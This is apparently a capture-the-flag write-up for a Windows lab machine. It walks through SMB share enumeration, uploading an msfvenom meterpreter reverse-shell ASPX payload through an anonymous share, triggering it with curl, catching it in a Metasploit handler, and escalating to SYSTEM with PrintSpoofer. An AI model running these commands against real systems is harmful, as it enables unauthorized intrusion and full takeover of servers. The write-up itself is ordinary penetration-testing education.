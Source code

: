 ## Enumeration
First we run an nmap scan on the ip given which reveals 2 web servers and smb servers.

Looking at the http website for this there is nothing significant there.
So we can enumerate the smb shares on this server.

`nmap --script=smb-enum-* HOST-IP -oN smb_enum.nmap`

## Recon
We find a peculiar share named `/nt4wrksv` on it.

Logging into it using smbclient: `smbclient //HOST-IP/nt4wrksv` and pasword is blank.

We see a passwords file with base64 encoded passwords in it. I thought this could be useful but it wasn't.

Bit of the dead end here.
So I did a gobuster search on the web server running on port `49663`. We find a directory there called `nt4wrksv`. 
We can access the passwords.txt file on this web server meaning if we upload a reverse shell to this share and trigger it using the web server we can work with something.

## Exploitation
So I made a payload using msfvenom to upload into the share using smbclient.

To get the info on arch google the service info form the nmap scan.

`msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 LHOST=tun0 LPORT=4444 -f aspx -o rev.aspx`

We upload this to nt4wrksv share using the `put` command.
Now we set up a handler on metasploit.

`use exploit/multi/handler
 set payload windows/x64/meterpreter/reverse_tcp
 set lhost tun0
 set lport 4444
 run
`

Now that we have this setup we can trigger the rev.aspx either by a curl command or by manually going there in a web browser.

`curl http://HOST-IP:49663/nt4wksv/rev.aspx`

The reason I used a meterpreter shell rather than a normal reverse shell is because I can execute all linux commands on meterpreter and it works on windows server.

We get a meterpreter shell now. We can navigate over to `C:/Users/Bob/` where we have our user.txt file.

## Privilege Escalation
if we see the whoami /priv , it will list all privileges accessible for the user Bob.

We can see here that `SeImpersonatePrevilige` is enabled. Hence, we can a use a tool called [printspoofer](https://github.com/dievus/printspoofer) to get root access.

We download this onto our machine and upload through the `upload` command in meterpreter and run this: `PrintSpoofer.exe -i -c cmd`

Now we have root access. We can go to the directory `c:/users/administartor/desktop` and print out the root flag.